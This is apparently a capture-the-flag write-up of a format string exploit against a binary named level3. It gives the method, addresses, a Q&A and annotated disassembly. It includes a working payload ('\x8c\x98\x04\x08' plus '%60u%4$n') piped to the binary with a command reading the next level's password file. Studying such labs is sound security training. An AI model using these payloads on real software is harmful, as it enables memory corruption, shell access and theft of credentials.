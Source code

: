 - attack: format string exploitation (address leaks)
- binary behavior: fgets argument and send it to printf, if global argument = 64 run the shell
- targeted functions: v and main
- vulnerability in v: printf() without argument (Bugs section in printf man)
- defense: fget

Method:
- do stack leakage
- find in leakage the position of the argument (find repetition and compare with hex ASCII table)
- find the address of global variable and its correct condition
- check that you can put global veriable address instead of argument
- write 64 to the global variable using %n and %u modifiers
 
Info:
- positon of buffer in stack - 4

- 0804988c - address of global variable
- 8c980408 - same in little-endian
- same in hex - \x8c\x98\x04\x08
- the password - 0x40 or 64

- offset code structure: 64 = 4 (global variable address) + 60 (padding)

Code:
objdump -d ./level3
objdump -t level3
./level3
111111 %p %p %p %p %p
(python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"';cat) | ./level3
(python -c 'print "\x8c\x98\x04\x08" + "%60u%4$n"'; echo "cat /home/user/level4/.pass") | ./level3

QA
- why the leakage of global varibale happens?
- Printf has no specificators. If we pass %smth in the stdin, prinf will consider it as specificator. Printf will try to print arguments, when they end - prinf will use global variables

- what is 0x200?
- format parameter

- how to find a global variable?
- objdump -t level3 -> 0804988c g     O .bss   00000004              m

- Where exacly do we write the address of global variable
- The format string is usually located on the stack itself. Arguments of prinf should be located on the stack

- how do we pass the global varibale?
- "A" * 60 + "%4$n or "%60u%4$n" - %n modifier writes the number of preceding bytes (64) and puts it the pointed location: the position of 4th argument (buffer)

Functions

0804851a <main>:
 804851a:       55                      push   %ebp
 804851b:       89 e5                   mov    %esp,%ebp
 804851d:       83 e4 f0                and    $0xfffffff0,%esp
 8048520:       e8 7f ff ff ff          call   80484a4 <v>
 8048525:       c9                      leave
 8048526:       c3                      ret



080484a4 <v>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       81 ec 18 02 00 00       sub    $0x218,%esp
 80484ad:       a1 60 98 04 08          mov    0x8049860,%eax
 80484b2:       89 44 24 08             mov    %eax,0x8(%esp)
 80484b6:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp) # 512
 80484bd:       00
 80484be:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax # buffer=520
 80484c4:       89 04 24                mov    %eax,(%esp)
 80484c7:       e8 d4 fe ff ff          call   80483a0 <fgets@plt> #defence
 80484cc:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484d2:       89 04 24                mov    %eax,(%esp)
 80484d5:       e8 b6 fe ff ff          call   8048390 <printf@plt> #exploit for attack
 80484da:       a1 8c 98 04 08          mov    0x804988c,%eax # global variable
 80484df:       83 f8 40                cmp    $0x40,%eax # comparison of eax with 64
 80484e2:       75 34                   jne    8048518 <v+0x74> # if equals to 0 
 80484e4:       a1 80 98 04 08          mov    0x8049880,%eax
 80484e9:       89 c2                   mov    %eax,%edx
 80484eb:       b8 00 86 04 08          mov    $0x8048600,%eax
 80484f0:       89 54 24 0c             mov    %edx,0xc(%esp)
 80484f4:       c7 44 24 08 0c 00 00    movl   $0xc,0x8(%esp)
 80484fb:       00
 80484fc:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048503:       00
 8048504:       89 04 24                mov    %eax,(%esp)
 8048507:       e8 a4 fe ff ff          call   80483b0 <fwrite@plt> # Wait what?
 804850c:       c7 04 24 0d 86 04 08    movl   $0x804860d,(%esp)
 8048513:       e8 a8 fe ff ff          call   80483c0 <system@plt> #exploit for shell
 8048518:       c9                      leave # jump here if 0
 8048519:       c3                      ret

             